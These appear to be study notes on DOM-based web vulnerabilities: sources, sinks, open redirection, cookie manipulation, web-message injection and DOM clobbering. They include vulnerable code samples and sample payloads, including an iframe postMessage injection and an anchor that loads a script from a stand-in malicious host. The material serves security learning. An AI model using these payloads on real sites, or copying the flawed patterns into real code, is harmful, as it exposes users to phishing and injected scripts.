 ### What is DOM?

- Document Object Model - web browser's hierarchical representation of the elements on the page
- Websites can use JS to manipulate the nodes and objects of the DOM, as well as their properties
- DOM based vulnerabilities arise when a website contains JS that takes an attacker-controllable value known as a source, and passes it into a dangerous function known as a sink

### Source

- a JS property that accepts data that is potentially attacker-controlled
- eg - `location.search` property as it reads the input from the query string which is relatively simple for an attacker to control
- any property that can be controlled by the attacker is a potential source
- this includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the `document.cookie` string) , and web messages

### Sinks

- potentially dangerous JS function or DOM object that can cause undesirable effects if attacker-controlled data is passed to it
- eg - `eval()` function as it processes the argument that is passed to it as JS
- example of HTML sink is `document.body.innerHTML` as it potentially allows the attacker to inject malicious HTML and execute arbitary JS

- Fundamentally, DOM-based vulnerabilities arise when a website passes data from a source to a sink, which then handles the data in an unsafe way in the context of the client's session
- eg -

```js
var goto = location.hash.slice(1);
if (goto.startsWith("https:")) {
  location = goto;
}
```

- this leads to `DOM-based open redirection` as the `location.hash` source is handled in an unsafe way
- if the URL contains a hash fragment that starts with https:, this code extracts the value of the location.hash property and sets it as the location property of the window
- attacker can exploit this vulnerability by constructing the following URL:

```
https://www.innocent-webiste.com/example#https://www.evil-website.com
```

- When a victim visits this URL, the JS sets the value of the location property to `https://www.evil-website.com`, which automatically redirects the victim to the malicious site

### Common sources

```js
document.URL;
document.documentURI;
document.URLUnencoded;
document.baseURI;
location;
document.cookie;
document.referrer;
window.name;
history.pushState;
history.replaceState;
localStorage;
sessionStorage;
IndexedDB;
Database;
```

### Common Sinks

| DOM-based vulnerability          | Example sink             |
| -------------------------------- | ------------------------ |
| DOM XSS                          | document.write()         |
| Open redirection                 | window.location          |
| Cookie manipulation              | document.cookie          |
| JS injection                     | eval()                   |
| Document-domain manipulation     | document.domain          |
| WebSocket-URL poisoning          | WebSocket()              |
| Link manipulation                | element.src              |
| Web message manipulation         | postMessage()            |
| Ajax request-header manipulation | setRequestHeader()       |
| Local file-path manipulation     | FileReader.readAsText()  |
| Client-side SQL injection        | ExecuteSql()             |
| HTML5-storage manipulation       | sessionStorage.setItem() |
| Client-side XPath injection      | document.evaluate()      |
| Client-side JSON injection       | JSON.parse()             |
| DOM-data manipulation            | element.setAttribute()   |
| Denial of service                | RegExp()                 |

#### DOM-based Open redirection

- arise when a script writes attacker-controlled data into a sink that can trigger cross-domain navigation
- eg - vulnerable due to the unsafe way it handles the `location.hash` property

```js
let url = /https:?:\/\/.+/.exec(location.hash);
if (url) {
  location = url[0];
}
```

- attacker may be able to use this vulnerability to contruct a URL that if visited by another user, will cause a redirection to an arbitary external domain

**Impact**

- phishing attacks against users of the website

- Sinks that lead to DOM-based Open Redirection

```
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```

#### DOM-bsaed cookie manipulation

- arises when a script writes attacker-controllable data into the value of a cookie
- attacker has to construct a URL that if visited by another user, will set an arbitary value in the user's cookie
- eg - JS writes data from a source into `document.cookie` without sanitizing it first, an attacker can manipulate the value of a single cookie to inject arbitary values

```js
document.cookie = "cookieName=" + location.hash.slice(1);
```

> `document.cookie` sink can lead to DOM-based cookie-manipulation vulnerabilities

#### Controlling Web Message source

- consider the following code:

```html
<script>
  window.addEventListener("message", function (e) {
    eval(e.data);
  });
</script>
```

- This is vulnerable because an attacker could inject a JS payload by constructing the following iframe:

```html
<iframe
  src="//vulnerable-website"
  onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')"
></iframe>
```

### DOM clobbering

- technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JS on the page
- useful in cases where XSS is not possible but can control some HTML on a page where the attributes id or name are whitelisted

- eg - you can use DOM objects to overwrite other JS objects and exploit unsafe names, such as `submit` to interfere with a form's actual `submit()` function

```html
<script>
  window.onload = function () {
    let someObject = window.someObject || {};
    let script = document.createElement("script");
    script.src = someObject.url;
    document.body.appendChild(script);
  };
</script>
```

- To exploit the vulnerable code ,

```html
<a id="someObject"
  ><a id=someObject name=url href=//malicious-website.com/evil.js></a
>
```
